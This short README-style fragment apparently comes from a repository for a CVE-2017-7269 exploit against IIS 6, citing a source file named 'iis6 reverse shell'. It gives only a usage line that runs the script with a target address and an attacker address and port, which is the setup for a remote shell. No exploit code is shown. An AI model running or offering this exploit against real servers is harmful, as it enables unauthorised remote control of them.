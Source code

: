 # CVE-2017-7269
source: https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

Usage:
```python
python CVE-2017-7269.py <ip> <port> <attacking-ip> <attacking-port>
```

</p>
